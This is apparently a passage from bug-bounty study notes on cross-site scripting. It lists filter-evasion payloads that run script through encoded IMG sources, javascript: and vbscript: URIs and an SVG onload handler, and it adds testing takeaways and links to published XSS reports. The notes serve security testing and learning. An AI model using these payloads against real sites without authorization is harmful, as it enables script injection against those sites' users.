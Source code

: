 ```js
`<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>`
```
### INPUT Image
```js
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
```
### BODY Image
```js
<BODY BACKGROUND="javascript:alert('XSS')">
```
### IMG Dynsrc
```js
<IMG DYNSRC="javascript:alert('XSS')">
```
### IMG Lowsrc
```js
<IMG LOWSRC="javascript:alert('XSS')">
```
### VBscript in an Image
```js
<IMG SRC='vbscript:msgbox("XSS")'>
```
### SVG Object Tag
```js
<svg/onload=alert('XSS')>
```
 > More bypasses here : https://owasp.org/www-community/xss-filter-evasion-cheatsheet
---
## Takeaways    
- XSS payloads don’t always execute immediately after they’re submitted. Because a payload could be used in multiple locations on a site, be sure to visit each location.
- When sites sanitize user input by modifying it instead of encoding or escaping values, you should continue testing the site’s Server-Side logic. Think about how a developer might have coded their solution and what assump- tions they’ve made. For example, check whether the developer considered what happens if two src attributes are submitted or if spaces are replaced with slashes.
- Always be on the lookout for URL parameters that might be reflected on the page because you have control over those values. If you find any URL parameters that are rendered on a page, consider their context as well. URL parameters might present opportunities to get around filters that remove special characters.

## Reports:
- [**https://hackerone.com/reports/106293/**](https://hackerone.com/reports/106293/)
- [**https://hackerone.com/reports/104359/**](https://hackerone.com/reports/104359/)
- [**https://klikki.fi/adv/yahoo.html**](https://klikki.fi/adv/yahoo.html) [worth reading again in book]
- [**https://mahmoudsec.blogspot.com/2015/09/how-i-found-xss-vulnerability-in-google.html**](https://mahmoudsec.blogspot.com/2015/09/how-i-found-xss-vulnerability-in-google.html)
 - [**https://blog.it-securityguard.com/bugbounty-the-5000-google-xss/**](https://blog.it-securityguard.com/bugbounty-the-5000-google-xss/)
 - [**http://strukt93.blogspot.com/2016/07/united-to-xss-united.html**](http://strukt93.blogspot.com/2016/07/united-to-xss-united.html)
